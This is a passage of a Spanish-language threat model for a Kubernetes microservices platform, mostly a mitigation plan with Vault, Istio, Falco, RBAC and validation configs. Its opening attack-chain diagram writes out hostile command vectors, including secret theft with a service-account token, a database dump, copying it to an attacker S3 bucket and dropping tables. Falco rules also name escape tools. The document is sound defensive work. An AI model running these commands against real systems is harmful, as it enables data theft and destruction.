│         default/secrets -H "Authorization: Bearer $SA_TOKEN"   │
└────────────────────────────────────────────────────────────────┘
                              ↓
┌────────────────────────────────────────────────────────────────┐
│ FASE 7: Discovery                                              │
│ [T1613] Container and Resource Discovery                       │
│ Enumera todos los pods y servicios del cluster                 │
│ Vector: kubectl get pods --all-namespaces                      │
└────────────────────────────────────────────────────────────────┘
                              ↓
┌────────────────────────────────────────────────────────────────┐
│ FASE 8: Lateral Movement                                       │
│ [T1021] Remote Services                                        │
│ Accede a PostgreSQL usando credenciales extraídas              │
│ Vector: psql -h postgres.default.svc -U admin -p $DB_PASSWORD  │
└────────────────────────────────────────────────────────────────┘
                              ↓
┌────────────────────────────────────────────────────────────────┐
│ FASE 9: Collection                                             │
│ [T1005] Data from Local System                                 │
│ Dump completo de base de datos PostgreSQL                      │
│ Vector: pg_dump -U admin production > /tmp/db_dump.sql         │
└────────────────────────────────────────────────────────────────┘
                              ↓
┌────────────────────────────────────────────────────────────────┐
│ FASE 10: Exfiltration                                          │
│ [T1537] Transfer Data to Cloud Account                         │
│ Sube dump a bucket S3 del atacante                             │
│ Vector: aws s3 cp /tmp/db_dump.sql s3://attacker-bucket/       │
└────────────────────────────────────────────────────────────────┘
                              ↓
┌────────────────────────────────────────────────────────────────┐
│ FASE 11: Impact                                                │
│ [T1485] Data Destruction                                       │
│ Elimina tablas para cubrir rastros                             │
│ Vector: DROP TABLE users CASCADE;                              │
└────────────────────────────────────────────────────────────────┘
```

**TIEMPO TOTAL DEL ATAQUE:** ~3-6 horas (si no hay detección)

**PUNTOS DE DETECCIÓN CRÍTICOS:**
- **Fase 1:** WAF debe bloquear exploit
- **Fase 4:** Falco debe detectar container escape
- **Fase 6:** Audit logs de K8s API deben alertar acceso a Secrets
- **Fase 9:** Database activity monitoring debe detectar pg_dump anómalo

---

## 7. Plan de Mitigación

### 7.1 Controles de Seguridad

| ID | Amenaza | Control de Seguridad | Prioridad | Estado |
|----|---------|----------------------|-----------|--------|
| **C01** | TH18, TH21 | Rate Limiting en 3 capas (WAF/GW/App) | P0 | Pend |
| **C02** | TH01, TH23 | JWT Secret Rotation + RS256 | P0 | Pend |
| **C03** | TH10, TH11, TH14 | Log Scrubbing + Encryption | P0 | Pend |
| **C04** | TH01, TH04, TH08, TH16 | External Secrets Operator + Vault | P0 | Pend |
| **C05** | TH05, TH06, TH25 | Input Validation Framework | P0 | Pend |
| **C06** | TH09 | Image Signing + Scanning | P1 | Pend |
| **C07** | TH09, TH22, TH24 | Security Contexts + AppArmor | P1 | Pend |
| **C08** | TH19, TH20 | Resource Limits + HPA | P1 | Pend |
| **C09** | TH02 | mTLS Strict Mode (Istio) | P1 | Pend |
| **C10** | TH26 | Network Policies + Admission Controllers | P1 | Pend |
| **C11** | TH07, TH21 + Todas | Runtime Security (Falco) | P1 | Pend |
| **C12** | TH10, TH11, TH12 | Immutable Audit Logs | P2 | Pend |
| **C13** | TH03, TH15 | Session Encryption + HTTPOnly Cookies | P2 | Pend |
| **C14** | TH13, TH17 | Error Handling Framework | P2 | Pend |
| **C15** | TH27 | RBAC Review + Least Privilege | P2 | Pend |

**Prioridades:**
- **P0 (Crítico):** Implementación inmediata - Sprint 1-2 (4 semanas)
- **P1 (Alto):** Implementación próximo ciclo - Sprint 3-4 (8 semanas)
- **P2 (Medio):** Implementación planificada - Sprint 5-6 (12 semanas)

---

### 7.2 Controles por Categoría

#### CONTROLES PREVENTIVOS

- [x] **Autenticación multifactor (MFA)**
  - Implementar para acceso administrativo a K8s
  - Implementar para acceso a producción vía VPN
  - Herramienta: Duo Security / Google Authenticator

- [x] **Cifrado de datos en tránsito y en reposo**
  - TLS 1.3 obligatorio para todas las conexiones
  - Encryption at rest para PostgreSQL (LUKS)
  - Encryption at rest para Elasticsearch
  - mTLS entre todos los microservicios (Istio)

- [x] **Validación de entrada**
  - Schema validation con Zod/Joi en todos los endpoints
  - Prepared statements obligatorios (ESLint rule)
  - WAF rules para inyección SQL, XSS, XXE

- [x] **Principio de mínimo privilegio**
  - RBAC de K8s con roles específicos por equipo
  - Service accounts únicos por microservicio
  - Database users con permisos granulares (no root)
  - IAM roles con least privilege en cloud provider

- [x] **Segmentación de red**
  - Network Policies de Kubernetes (default deny all)
  - Security groups en cloud provider
  - Service Mesh authorization policies (Istio)
  - VLANs separadas para management vs data plane

- [x] **Hardening de containers**
  - Distroless base images
  - runAsNonRoot: true
  - readOnlyRootFilesystem: true
  - No privileged containers
  - Drop all capabilities, solo añadir necesarias

#### CONTROLES DETECTIVOS

- [x] **Logging de eventos de seguridad**
  - Kubernetes audit logs (todos los API calls)
  - Application logs con structured logging (JSON)
  - WAF logs de requests bloqueados
  - Database query logs (slow queries + failed auth)

- [x] **Monitorización con SIEM**
  - Elastic Security (parte de ELK Stack)
  - Correlation rules para detectar:
    * Intentos de autenticación fallidos (>10 en 5 min)
    * Acceso a recursos fuera de horario laboral
    * Cambios en Secrets/ConfigMaps
    * Privilege escalation attempts

- [x] **Alertas de anomalías**
  - Falco para runtime anomaly detection
  - Prometheus alertas en métricas anómalas
  - Istio telemetry para detectar traffic patterns inusuales

- [x] **Revisión de logs periódica**
  - Daily review de alertas SIEM
  - Weekly review de Kubernetes audit logs
  - Monthly security metrics dashboard review

- [x] **Vulnerability Scanning**
  - Trivy scanning en CI/CD pipeline
  - Clair scanning en container registry
  - Dependency scanning con Snyk/Dependabot
  - DAST con OWASP ZAP en staging

#### CONTROLES CORRECTIVOS

- [x] **Plan de respuesta a incidentes**
  - Runbooks documentados para cada tipo de incidente
  - Equipo on-call 24/7 con PagerDuty
  - Procedimiento de escalación definido
  - Communication templates para stakeholders

- [x] **Procedimientos de backup**
  - Velero para backups de Kubernetes (daily)
  - PostgreSQL pg_basebackup (continuous archiving + daily full)
  - RabbitMQ configuration backups
  - Elasticsearch snapshots a S3 (daily)
  - RPO (Recovery Point Objective): 1 hora
  - RTO (Recovery Time Objective): 4 horas

- [x] **Plan de recuperación**
  - Disaster recovery testing quarterly
  - Failover a región secundaria documentado
  - Restore procedures validados mensualmente
  - Crisis communication plan

---

### 7.3 Detalle de Controles

#### CONTROL C01: Rate Limiting Robusto

**Amenazas mitigadas:** TH18 (API Flooding/DDoS), TH21 (RabbitMQ Queue Flooding)  
**Prioridad:** P0  
**Timeline:** Sprint 1 (2 semanas)  
**Responsable:** Equipo Platform/SRE

**Implementación en 3 capas:**

**CAPA 1 - WAF (Cloudflare/AWS WAF):**
- Rate limit: 100 requests/min por IP
- Geo-blocking de países de alto riesgo
- Challenge (CAPTCHA) si > 200 requests/min
- Bloqueo automático de IPs con >1000 req/min

**CAPA 2 - API Gateway (Kong):**

```yaml
apiVersion: configuration.konghq.com/v1
kind: KongPlugin
metadata:
  name: rate-limiting-global
plugin: rate-limiting
config:
  minute: 100
  hour: 5000
  policy: redis
  redis_host: redis.default.svc.cluster.local
  redis_port: 6379
  fault_tolerant: true
  hide_client_headers: false
```

**CAPA 3 - Application (Token Bucket):**

```javascript
const rateLimiter = new RateLimiter({
  tokensPerInterval: 10,
  interval: "second",
  fireImmediately: true
});

app.use(async (req, res, next) => {
  const userId = req.user.id;
  const allowed = await rateLimiter.removeTokens(userId, 1);
  if (!allowed) {
    return res.status(429).json({ error: "Too many requests" });
  }
  next();
});
```

**Métricas de éxito:**
- 99.9% de requests legítimos pasan sin bloqueo
- Detección de flooding en <10 segundos
- Mitigación automática sin intervención manual
- False positive rate <0.1%

---

#### CONTROL C02: JWT Secret Rotation + RS256

**Amenazas mitigadas:** TH01 (JWT Falsification), TH23 (JWT Privilege Escalation)  
**Prioridad:** P0  
**Timeline:** Sprint 1 (2 semanas)  
**Responsable:** Equipo de Security + Backend

**1. Migrar de HS256 (symmetric) a RS256 (asymmetric):**
- Private key solo en Auth Service
- Public key distribuida a todos los servicios
- Imposible falsificar token sin private key

**2. Rotación automática de keys:**
- Nueva keypair cada 30 días
- Período de gracia de 7 días (ambas keys válidas)
- Script automatizado con Vault

**3. Almacenamiento seguro:**
- Private key en HashiCorp Vault
- NUNCA en variables de entorno
- NUNCA en ConfigMaps
- Acceso vía External Secrets Operator

**4. Claims validation estricta:**

```javascript
jwt.verify(token, publicKey, {
  algorithms: ['RS256'],
  issuer: 'https://auth.example.com',
  audience: 'api.example.com',
  clockTolerance: 60
}, (err, decoded) => {
  if (err) throw new UnauthorizedError('Invalid token');

  if (!decoded.sub || !decoded.roles) {
    throw new UnauthorizedError('Missing claims');
  }

  const allowedRoles = ['user', 'admin', 'support'];
  if (!allowedRoles.includes(decoded.role)) {
    throw new UnauthorizedError('Invalid role');
  }
});
```

**Métricas de éxito:**
- 0 secrets expuestos en logs/configs
- Rotación automática sin downtime
- Audit trail de cada rotación

---

#### CONTROL C03: Log Scrubbing + Encryption

**Amenazas mitigadas:** TH10 (Falta de trazabilidad), TH11 (Logs eliminados o modificados), TH14 (PII Exposure in Logs)<br/>
**Prioridad:** P0  
**Timeline:** Sprint 1 (2 semanas)  
**Responsable:** Equipo de Observability

**Pipeline de logging:**

```
[Application]
    ↓ (structured logs, PII scrubbing)
[Fluentd/Fluent Bit]
    ↓ (additional scrubbing, encryption)
[Elasticsearch]
    ↓ (encryption at rest, RBAC)
[Kibana] (MFA, audit trail)
```

**Scrubbing rules (Fluentd):**

```ruby
<filter **>
  @type record_transformer
  enable_ruby true
  <record>
    # Redact emails
    message ${record["message"].gsub(/[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,}/, '[EMAIL_REDACTED]')}
    # Redact credit cards
    message ${record["message"].gsub(/\d{4}[\s-]?\d{4}[\s-]?\d{4}[\s-]?\d{4}/, '[CC_REDACTED]')}
    # Redact SSNs
    message ${record["message"].gsub(/\d{3}-\d{2}-\d{4}/, '[SSN_REDACTED]')}
    # Redact JWTs
    message ${record["message"].gsub(/eyJ[a-zA-Z0-9_-]*\.eyJ[a-zA-Z0-9_-]*\.[a-zA-Z0-9_-]*/, '[JWT_REDACTED]')}
    # Redact passwords
    message ${record["message"].gsub(/(password|passwd|pwd)[\s]*=[\s]*[^\s&]+/i, '\1=[REDACTED]')}
  </record>
</filter>
```

**Application-side structured logging:**

```javascript
// NUNCA loggear así:
logger.info(`Request: ${JSON.stringify(req.body)}`);

// Loggear así:
logger.info('User login attempt', {
  userId: req.body.userId,
  action: 'login',
  timestamp: Date.now(),
  // NO loggear: email, password, tokens
});
```

**Elasticsearch encryption:**
- Encryption at rest: LUKS en volúmenes
- Encryption in transit: TLS 1.3
- RBAC: Solo security team tiene acceso full
- Audit logs de quién accede a qué queries

**Métricas de éxito:**
- 0 PII detectado en logs en auditorías
- 100% de logs encriptados en tránsito y reposo
- Audit trail de todos los accesos a logs

---

#### CONTROL C04: External Secrets Operator + Vault

**Amenazas mitigadas:** TH01 (JWT secret theft), TH04 (API Key Theft), TH08 (ConfigMap/Secret Modification), TH16 (K8s Secrets Exposure)<br/>
**Prioridad:** P0  
**Timeline:** Sprint 2 (2 semanas)  
**Responsable:** Equipo Platform

**Arquitectura:**

```
[HashiCorp Vault / AWS Secrets Manager]
         ↓ (External Secrets Operator sync)
[Kubernetes Secrets] (short-lived, rotated)
         ↓ (mounted as files, NOT env vars)
[Application Pods]
```

**1. Setup Vault:**

```bash
vault auth enable kubernetes

vault write auth/kubernetes/config \
    kubernetes_host="https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT"

vault policy write app-secrets - <<EOF
path "secret/data/production/*" {
  capabilities = ["read"]
}
EOF

vault write auth/kubernetes/role/app-role \
    bound_service_account_names=app-sa \
    bound_service_account_namespaces=production \
    policies=app-secrets \
    ttl=1h
```

**2. External Secret definition:**

```yaml
apiVersion: external-secrets.io/v1beta1
kind: ExternalSecret
metadata:
  name: database-credentials
  namespace: production
spec:
  refreshInterval: 1h
  secretStoreRef:
    name: vault-backend
    kind: SecretStore
  target:
    name: postgres-secret
    creationPolicy: Owner
  data:
  - secretKey: password
    remoteRef:
      key: secret/data/production/postgres
      property: password
```

**3. Application mounting (NO env vars):**

```yaml
apiVersion: v1
kind: Pod
spec:
  serviceAccountName: app-sa
  containers:
  - name: app
    volumeMounts:
    - name: secrets
      mountPath: /etc/secrets
      readOnly: true
  volumes:
  - name: secrets
    secret:
      secretName: postgres-secret
```

**4. Application reading secret:**

```javascript
// NUNCA así:
const dbPassword = process.env.DB_PASSWORD;

// SÍ así:
import fs from 'fs';
const dbPassword = fs.readFileSync('/etc/secrets/password', 'utf8').trim();
```

**Rotación automática:**
- JWT secrets: cada 30 días
- DB passwords: cada 90 días
- API keys terceros: cada 60 días
- TLS certificates: cada 90 días (Let's Encrypt)

**Métricas de éxito:**
- 0 secrets hardcodeados en código
- 0 secrets en variables de entorno
- 100% de secrets rotados según schedule
- Audit trail de cada rotación

---

#### CONTROL C05: Input Validation Framework

**Amenazas mitigadas:**  TH05 (Request Parameter Tampering), TH06 (SQL Injection), TH25 (IDOR)  
**Prioridad:** P0  
**Timeline:** Sprint 1-2 (3 semanas)  
**Responsable:** Equipos de desarrollo

**1. Schema validation (Zod/Joi):**

```typescript
import { z } from 'zod';

const OrderSchema = z.object({
  orderId: z.string().uuid(),
  userId: z.string().uuid(),
  items: z.array(z.object({
    productId: z.string().uuid(),
    quantity: z.number().int().positive().max(1000)
  })).max(100),
  totalAmount: z.number().positive().max(1000000)
});

app.post('/api/orders', async (req, res) => {
  try {
    const validatedData = OrderSchema.parse(req.body);
  } catch (error) {
    return res.status(400).json({ error: error.errors });
  }
});
```

**2. SQL Injection Prevention:**

```javascript
// NUNCA concatenar:
const query = `SELECT * FROM users WHERE id = ${userId}`;

// SIEMPRE usar prepared statements:
const query = 'SELECT * FROM users WHERE id = $1';
const result = await db.query(query, [userId]);
```

**3. IDOR Prevention:**

```javascript
async function getOrder(orderId, userId) {
  const order = await db.query('SELECT * FROM orders WHERE id = $1', [orderId]);

  if (!order) throw new NotFoundError('Order not found');

  // CRITICAL: Validate ownership
  if (order.userId !== userId) throw new UnauthorizedError('Not your order');

  return order;
}
```

**4. ESLint rules enforcement:**

```javascript
module.exports = {
  rules: {
    'no-sql-concat': 'error',
    'no-eval': 'error',
    'no-new-func': 'error'
  }
};
```

**5. WAF rules:**
- ModSecurity Core Rule Set (OWASP)
- SQL Injection patterns
- XSS patterns
- Path traversal patterns
- XML External Entity (XXE) patterns

**Métricas de éxito:**
- 0 SQL injection findings en pentests
- 0 IDOR findings en pentests
- 100% de endpoints con schema validation
- CI pipeline rechaza PRs con SQL concatenation

---

#### CONTROL C06: Image Signing + Scanning

**Amenazas mitigadas:** TH09 (Imagen Docker infectada en registry)  
**Prioridad:** P1  
**Timeline:** Sprint 3 (2 semanas)  
**Responsable:** Equipo Platform/DevOps

**1. Image signing con Cosign:**

```bash
# Generar keypair
cosign generate-key-pair

# Firmar imagen
cosign sign --key cosign.key ghcr.io/org/app:v1.0.0

# Verificar firma
cosign verify --key cosign.pub ghcr.io/org/app:v1.0.0
```

**2. Admission controller para verificar firma:**

```yaml
apiVersion: admissionregistration.k8s.io/v1
kind: ValidatingWebhookConfiguration
metadata:
  name: image-policy
webhooks:
- name: image-policy.example.com
  rules:
  - apiGroups: [""]
    apiVersions: ["v1"]
    operations: ["CREATE", "UPDATE"]
    resources: ["pods"]
  clientConfig:
    service:
      name: image-policy-webhook
      namespace: kube-system
      path: /validate
```

**3. Trivy scanning en CI/CD:**

```yaml
# GitHub Actions / GitLab CI
- name: Scan image
  run: |
    trivy image --exit-code 1 --severity CRITICAL ghcr.io/org/app:$TAG
```

**Criterio de aceptación:**
- [ ] 100% de imágenes firmadas con Cosign antes de entrar al registry
- [ ] Pipeline rechaza imágenes con vulnerabilidades CRITICAL
- [ ] Admission controller bloquea pods con imágenes no firmadas

**Esfuerzo estimado:** 12h | **Costo:** Open source (Cosign + Trivy)

---

#### CONTROL C07: Security Contexts + AppArmor

**Amenazas mitigadas:** TH09 (Imagen infectada en runtime), TH22 (Istio Control Plane saturado), TH24 (Container Escape)<br/>
**Prioridad:** P1  
**Timeline:** Sprint 3 (2 semanas)  
**Responsable:** Equipo Platform

**1. Security Context en todos los pods:**

```yaml
apiVersion: v1
kind: Pod
spec:
  securityContext:
    runAsNonRoot: true
    runAsUser: 1000
    fsGroup: 2000
    seccompProfile:
      type: RuntimeDefault
  containers:
  - name: app
    securityContext:
      allowPrivilegeEscalation: false
      readOnlyRootFilesystem: true
      capabilities:
        drop: ["ALL"]
```

**2. AppArmor profile:**

```bash
# Cargar perfil AppArmor en cada nodo
apparmor_parser -r /etc/apparmor.d/docker-default

# Anotar pod para usar perfil
annotations:
  container.apparmor.security.beta.kubernetes.io/app: runtime/default
```

**3. PodSecurity admission (K8s 1.25+):**

```yaml
apiVersion: v1
kind: Namespace
metadata:
  name: production
  labels:
    pod-security.kubernetes.io/enforce: restricted
    pod-security.kubernetes.io/audit: restricted
```

**Criterio de aceptación:**
- [ ] 0 containers con `privileged: true` en producción
- [ ] 0 containers ejecutando como root
- [ ] Falco alerta ante intentos de escape

**Esfuerzo estimado:** 10h | **Costo:** Open source

---

#### CONTROL C08: Resource Limits + HPA

**Amenazas mitigadas:** TH19 (Microservice Resource Exhaustion), TH20 (DB Connection Pool Exhaustion)  
**Prioridad:** P1  
**Timeline:** Sprint 3 (2 semanas)  
**Responsable:** Equipo Platform/SRE

**1. Resource limits en todos los pods:**

```yaml
resources:
  requests:
    memory: "128Mi"
    cpu: "100m"
  limits:
    memory: "512Mi"
    cpu: "500m"
```

**2. Horizontal Pod Autoscaler:**

```yaml
apiVersion: autoscaling/v2
kind: HorizontalPodAutoscaler
metadata:
  name: app-hpa
spec:
  scaleTargetRef:
    apiVersion: apps/v1
    kind: Deployment
    name: app
  minReplicas: 2
  maxReplicas: 10
  metrics:
  - type: Resource
    resource:
      name: cpu
      target:
        type: Utilization
        averageUtilization: 70
```

**3. PgBouncer para connection pooling:**

```ini
[pgbouncer]
pool_mode = transaction
max_client_conn = 1000
default_pool_size = 20
```

**Criterio de aceptación:**
- [ ] CPU/Memory limits definidos en 100% de pods
- [ ] HPA activo en todos los deployments de producción
- [ ] PgBouncer delante de PostgreSQL con pool configurado

**Esfuerzo estimado:** 8h | **Costo:** Open source

---

#### CONTROL C09: mTLS Strict Mode (Istio)

**Amenazas mitigadas:** TH02 (Service Mesh Spoofing)  
**Prioridad:** P1  
**Timeline:** Sprint 3 (2 semanas)  
**Responsable:** Equipo Platform

**1. PeerAuthentication global en modo STRICT:**

```yaml
apiVersion: security.istio.io/v1beta1
kind: PeerAuthentication
metadata:
  name: default
  namespace: istio-system
spec:
  mtls:
    mode: STRICT
```

**2. AuthorizationPolicy por servicio:**

```yaml
apiVersion: security.istio.io/v1beta1
kind: AuthorizationPolicy
metadata:
  name: orders-policy
  namespace: production
spec:
  selector:
    matchLabels:
      app: orders-service
  rules:
  - from:
    - source:
        principals: ["cluster.local/ns/production/sa/api-gateway"]
  - to:
    - operation:
        methods: ["GET", "POST"]
```

**Criterio de aceptación:**
- [ ] 100% del tráfico service-to-service encriptado con mTLS
- [ ] Istio rechaza conexiones sin certificado válido
- [ ] Istio telemetry confirma 0 tráfico en texto plano entre servicios

**Esfuerzo estimado:** 6h | **Costo:** Open source (Istio ya instalado)

---

#### CONTROL C10: Network Policies + Admission Controllers

**Amenazas mitigadas:** TH26 (Bypass de políticas de Istio)  
**Prioridad:** P1  
**Timeline:** Sprint 4 (2 semanas)  
**Responsable:** Equipo Platform

**1. Default deny all en todos los namespaces:**

```yaml
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: default-deny-all
  namespace: production
spec:
  podSelector: {}
  policyTypes:
  - Ingress
  - Egress
```

**2. Allow explícito solo entre servicios autorizados:**

```yaml
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: allow-orders-to-postgres
  namespace: production
spec:
  podSelector:
    matchLabels:
      app: orders-service
  egress:
  - to:
    - podSelector:
        matchLabels:
          app: postgres
    ports:
    - protocol: TCP
      port: 5432
```

**3. OPA Gatekeeper constraint:**

```yaml
apiVersion: constraints.gatekeeper.sh/v1beta1
kind: K8sRequiredNetworkPolicy
metadata:
  name: require-network-policy
spec:
  match:
    kinds:
    - apiGroups: [""]
      kinds: ["Namespace"]
```

**Criterio de aceptación:**
- [ ] Default deny activo en todos los namespaces de producción
- [ ] 0 pods pueden comunicarse sin NetworkPolicy explícita
- [ ] OPA Gatekeeper bloquea namespaces sin NetworkPolicy

**Esfuerzo estimado:** 10h | **Costo:** Open source

---

#### CONTROL C11: Runtime Security (Falco)

**Amenazas mitigadas:** TH07 (RabbitMQ Message Tampering), TH21 (Queue Flooding) — capa detectiva transversal a todas las amenazas  
**Prioridad:** P1  
**Timeline:** Sprint 4 (2 semanas)  
**Responsable:** Equipo Security/SRE

**1. Instalación con Helm:**

```bash
helm repo add falcosecurity https://falcosecurity.github.io/charts
helm install falco falcosecurity/falco \
  --set falco.jsonOutput=true \
  --set falco.logLevel=info \
  --namespace falco --create-namespace
```

**2. Reglas críticas:**

```yaml
- rule: Container Escape Attempt
  desc: Detecta intento de escape de container
  condition: >
    spawned_process and container and
    (proc.name in (nsenter, unshare) or
     fd.name startswith /proc/1/ns)
  output: >
    Container escape attempt (user=%user.name
    command=%proc.cmdline container=%container.name)
  priority: CRITICAL

- rule: K8s Secret Access
  desc: Acceso a Kubernetes Secrets desde proceso no autorizado
  condition: >
    ka.target.resource = secrets and
    ka.verb in (get, list, watch) and
    not ka.user.name in (system:serviceaccount:production:app-sa)
  output: >
    K8s Secret accessed (user=%ka.user.name
    secret=%ka.target.name)
  priority: WARNING

- rule: Unexpected Outbound Connection
  desc: Conexión saliente inesperada desde container
  condition: >
    outbound and container and
    not fd.sip in (allowed_outbound_ips)
  output: >
    Unexpected outbound connection (container=%container.name
    dest=%fd.sip:%fd.sport)
  priority: WARNING
```

**3. Alertas a PagerDuty:**

```yaml
program_output:
  enabled: true
  keep_alive: false
  program: "jq '{title: .rule, message: .output}' | curl -X POST https://events.pagerduty.com/v2/enqueue -H 'Content-Type: application/json' -d @-"
```

**Criterio de aceptación:**
- [ ] Falco corriendo en todos los nodos del cluster
- [ ] Alerta en <1 min ante container escape attempt
- [ ] Alerta en <1 min ante acceso anómalo a K8s Secrets
- [ ] Integración con PagerDuty funcionando

**Esfuerzo estimado:** 12h | **Costo:** Open source (Falco)

---

#### CONTROL C12: Immutable Audit Logs

**Amenazas mitigadas:** TH10 (Falta de trazabilidad), TH11 (Logs eliminados o modificados), TH12 (Transaction Repudiation)  
**Prioridad:** P2  
**Timeline:** Sprint 5 (2 semanas)  
**Responsable:** Equipo Observability

**1. WORM storage en Elasticsearch:**

```yaml
# Index Lifecycle Management (ILM)
PUT _ilm/policy/audit-logs-policy
{
  "policy": {
    "phases": {
      "hot": { "actions": { "rollover": { "max_age": "7d" } } },
      "warm": { "actions": { "readonly": {} } },
      "cold": {
        "min_age": "30d",
        "actions": { "freeze": {} }
      },
      "delete": { "min_age": "90d", "actions": { "delete": {} } }
    }
  }
}
```

**2. S3 WORM bucket para backup de logs:**

```bash
aws s3api put-bucket-object-lock-configuration \
  --bucket audit-logs-backup \
  --object-lock-configuration \
  '{"ObjectLockEnabled":"Enabled","Rule":{"DefaultRetention":{"Mode":"COMPLIANCE","Days":90}}}'
```

**3. K8s Audit Policy:**

```yaml
apiVersion: audit.k8s.io/v1
kind: Policy
rules:
- level: RequestResponse
  resources:
  - group: ""
    resources: ["secrets", "configmaps"]
- level: Metadata
  resources:
  - group: ""
    resources: ["pods", "services"]
```

**Criterio de aceptación:**
- [ ] Logs en Elasticsearch con ILM en modo readonly después de 7 días
- [ ] Backup de logs en S3 con WORM policy de 90 días
- [ ] K8s audit logs habilitados para Secrets y ConfigMaps

**Esfuerzo estimado:** 10h | **Costo:** Costo de S3 storage (~$5-20/mes)

---

#### CONTROL C13: Session Encryption + HTTPOnly Cookies

**Amenazas mitigadas:** TH03 (Session Hijacking en Redis), TH15 (Redis Memory Dump Exposure)  
**Prioridad:** P2  
**Timeline:** Sprint 5 (2 semanas)  
**Responsable:** Equipo Backend

**1. Redis TLS:**

```bash
# redis.conf
tls-port 6380
tls-cert-file /etc/redis/tls/redis.crt
tls-key-file /etc/redis/tls/redis.key
tls-ca-cert-file /etc/redis/tls/ca.crt
tls-auth-clients yes
```

**2. Cookie flags seguros:**

```javascript
res.cookie('sessionId', sessionToken, {
  httpOnly: true,    // No accesible desde JavaScript
  secure: true,      // Solo HTTPS
  sameSite: 'strict', // Previene CSRF
  maxAge: 3600000,   // 1 hora
  path: '/'
});
```

**3. Encriptación de datos de sesión:**

```javascript
import crypto from 'crypto';

function encryptSession(data, key) {
  const iv = crypto.randomBytes(16);
  const cipher = crypto.createCipheriv('aes-256-gcm', key, iv);
  const encrypted = Buffer.concat([cipher.update(JSON.stringify(data)), cipher.final()]);
  return `${iv.toString('hex')}:${encrypted.toString('hex')}:${cipher.getAuthTag().toString('hex')}`;
}
```

**Criterio de aceptación:**
- [ ] Redis acepta solo conexiones TLS
- [ ] 100% de cookies con flags httpOnly, secure y sameSite
- [ ] Session data encriptada en Redis

**Esfuerzo estimado:** 8h | **Costo:** Open source

---

#### CONTROL C14: Error Handling Framework

**Amenazas mitigadas:** TH13 (API Responses Verbosas), TH17 (Stack Traces en Producción)  
**Prioridad:** P2  
**Timeline:** Sprint 5 (2 semanas)  
**Responsable:** Equipos de desarrollo

**1. Global error handler:**

```javascript
app.use((err, req, res, next) => {
  // Log detallado interno
  logger.error('Internal error', {
    errorId: err.id,
    stack: err.stack,
    userId: req.user?.id,
    path: req.path
  });

  // Respuesta genérica al cliente
  const isProd = process.env.NODE_ENV === 'production';
  res.status(err.status || 500).json({
    error: isProd ? 'Internal server error' : err.message,
    errorId: err.id  // Para correlacionar con logs internos
  });
});
```

**2. Error types definidos:**

```typescript
class AppError extends Error {
  constructor(
    public message: string,
    public status: number,
    public id: string = crypto.randomUUID()
  ) {
    super(message);
  }
}

class NotFoundError extends AppError {
  constructor(msg = 'Resource not found') {
    super(msg, 404);
  }
}

class UnauthorizedError extends AppError {
  constructor(msg = 'Unauthorized') {
    super(msg, 401);
  }
}
```

**3. Sanitización de headers:**

```javascript
app.use(helmet({
  hidePoweredBy: true,       // Elimina X-Powered-By: Express
  noSniff: true,             // X-Content-Type-Options
  xssFilter: true,           // X-XSS-Protection
}));
```

**Criterio de aceptación:**
- [ ] 0 stack traces visibles en responses de producción
- [ ] 0 headers que expongan versiones de software
- [ ] Todos los errores loggean errorId para correlación

**Esfuerzo estimado:** 6h | **Costo:** Open source (helmet)

---

#### CONTROL C15: RBAC Review + Least Privilege

**Amenazas mitigadas:** TH27 (RBAC Misconfiguration / Over-privileged roles)  
**Prioridad:** P2  
**Timeline:** Sprint 6 (2 semanas)  
**Responsable:** Equipo Security/DevOps

**1. Audit de roles existentes:**

```bash
# Listar todos los ClusterRoleBindings
kubectl get clusterrolebindings -o json | \
  jq '.items[] | {name: .metadata.name, subjects: .subjects, role: .roleRef}'

# Detectar service accounts con permisos de cluster-admin
kubectl get clusterrolebindings -o json | \
  jq '.items[] | select(.roleRef.name=="cluster-admin") | .subjects'
```

**2. Service account por microservicio (least privilege):**

```yaml
apiVersion: v1
kind: ServiceAccount
metadata:
  name: orders-service-sa
  namespace: production
---
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: orders-service-role
  namespace: production
rules:
- apiGroups: [""]
  resources: ["secrets"]
  resourceNames: ["orders-db-secret"]
  verbs: ["get"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: orders-service-binding
  namespace: production
subjects:
- kind: ServiceAccount
  name: orders-service-sa
roleRef:
  kind: Role
  name: orders-service-role
  apiGroup: rbac.authorization.k8s.io
```

**3. Prohibir uso de default service account:**

```yaml
# OPA Gatekeeper constraint
apiVersion: constraints.gatekeeper.sh/v1beta1
kind: K8sNoDefaultServiceAccount
metadata:
  name: no-default-sa
spec:
  match:
    kinds:
    - apiGroups: [""]
      kinds: ["Pod"]
```

**Criterio de aceptación:**
- [ ] 0 service accounts con permisos cluster-admin no justificados
- [ ] Cada microservicio tiene su propio service account con permisos mínimos
- [ ] 0 pods usando el service account default

**Esfuerzo estimado:** 12h | **Costo:** Open source

---

## 8. Matriz de Controles (NIST/ISO 27001)

| ID | Control | Descripción | Referencia |
|----|---------|-------------|------------|
| **AC-1** | Access Control Policy | Política de control de acceso<br/>RBAC en K8s, Istio AuthZ | NIST AC-1<br/>ISO 27001 A.9 |
| **AC-2** | Account Management | Gestión de cuentas de usuario<br/>SSO, provisioning automatizado | NIST AC-2 |
| **AC-3** | Access Enforcement | Enforcement de permisos<br/>Admission controllers, OPA | NIST AC-3 |
| **AC-6** | Least Privilege | Principio de mínimo privilegio<br/>Service accounts únicos | NIST AC-6 |
| **AU-2** | Audit Events | Eventos de auditoría<br/>K8s audit logs, app logs | NIST AU-2<br/>ISO 27001 A.12 |
| **AU-6** | Audit Review/Analysis | Revisión periódica de logs<br/>SIEM correlation, alertas | NIST AU-6 |
| **AU-9** | Protection of Audit Info | Protección de logs<br/>Immutable storage, encryption | NIST AU-9 |
| **CA-2** | Security Assessments | Evaluaciones de seguridad<br/>Pentests trimestrales, audits | NIST CA-2 |
| **CA-7** | Continuous Monitoring | Monitorización continua<br/>Falco, Prometheus, SIEM | NIST CA-7 |
| **CM-2** | Baseline Configuration | Configuración baseline<br/>IaC con Terraform, GitOps | NIST CM-2<br/>ISO 27001 A.12 |
| **CM-3** | Configuration Change Ctrl | Control de cambios<br/>Pull requests, approvals | NIST CM-3 |
